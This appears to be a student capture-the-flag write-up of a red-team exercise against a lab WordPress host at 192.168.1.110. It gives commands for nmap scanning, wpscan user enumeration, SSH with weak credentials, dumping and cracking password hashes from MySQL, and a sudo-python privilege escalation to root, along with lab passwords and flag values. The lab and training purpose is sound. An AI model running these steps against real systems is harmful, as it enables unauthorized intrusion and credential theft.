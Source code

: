 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
   Ping Scan only 
   $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
   Find the version of the service running on port 192.168.1.110:
   $ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

### This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1 -Michael
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploit Used
   * dirb returns the enumerated directories found within the target URL

![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)

- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
![](https://github.com/y2keno/final_project/blob/dbc3bb6c5a0d8ced95df9e13162e2d82bcd9a675/Final_Red_Team/images/image22.png)

- Target 1
- flag1.txt: b9bbcb33e11b80be759c4e844


### Exploit Used
- WPScan to enumerate users of the Target 1 WordPress site
   - SSH using Michael’s credentials, Flag 1 was found
   - Flag 1 was found in /var/www in the HTML folder

- Kali Linux Command: 
   $ wpscan -u http://192.168.1.110/wordpress -eu 
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image2.png)
![](https://github.com/y2keno/final_project/blob/eeff044c9c10ecd69f6574bca247e958df05c134/Final_Red_Team/images/image16.png)
![](https://github.com/y2keno/final_project/blob/638eec6e538de727c61a25a0b6898746f70bac65/Final_Red_Team/images/image17.png)

- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


### Exploit used:
   * Continuation of exploit from Target 1. 
   * SSH using Michael’s credentials, Flag 2 was found. 
   * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 

- Kali Linux Commands: 
   * $ ssh michael@192.168.1.110
   * pwd
   * cd var/www
   * ls -l
   * cat flag2.txt

![](https://github.com/y2keno/final_project/blob/3ffd601fef819d7e5dce7e0f70b736d1a4ba00e1/Final_Red_Team/images/image12.png)
  
- Flag 3: afc01ab56b50591e7dccf93122770cd2

### Exploit used: 
   * Continuation of Exploit from Target 1. 

- Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image15.png)  

- Kali Linux Command: 
   - $ mysql -u root -p
   - Password: R@v3nSecurity  Host: 127.0.0.1
   - Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
   - show databases;
   - use wordpress; 
   - show tables;
   - Select * from wp_users; 

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image4.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image14.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image21.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image12.png)

### Exploit used:
   - Unsalted password hash and privilege escalation with Python
   - Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   - Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   - Copied the username and password hash for Steven. Saved the file and named it  hash.txt

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image13.png)

- Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)

### Exploit Used: 
- Utilized John the Ripper to crack the password hash from the hash.txt file.
- Kali Linux command: 
   * $ john hash

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image19.png)
  
* Steven Password cracked: pink84

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image6.png)
  
* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image9.png)
  
* Use python to gain root privileges

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image20.png)
  
   * cd root
   * ls
   * cat flag4.txt

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image18.png)

### Captured Flag 4: 715dea6c055b9fe33354932f2941ce ;D